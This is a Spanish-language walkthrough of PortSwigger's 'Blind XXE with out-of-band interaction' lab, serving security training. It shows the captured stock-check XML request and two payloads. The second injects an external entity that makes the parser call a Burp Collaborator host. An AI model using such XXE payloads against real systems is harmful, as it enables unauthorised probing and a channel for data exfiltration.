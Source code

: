 ```yaml
---
title: XXE Injection Lab 3
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Blind XXE with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Blind XXE with out-of-band interaction

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y `devuelve` cualquier `valor inesperado` en la respuesta. Puedes `detectar` la vulnerabilidad `blind XXE` provocando `out-of-band interactions` con un `dominio externo`. Para resolver el laboratorio, debemos utilizar una `entidad externa` para hacer que el analizador XML realice una `búsqueda DNS` y una `solicitud HTTP` hacia `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-3/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-3/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-3/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://7qyhremmrjqjtk32uztkk5jai1osci07.oastify.com"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-3/image_4.png)
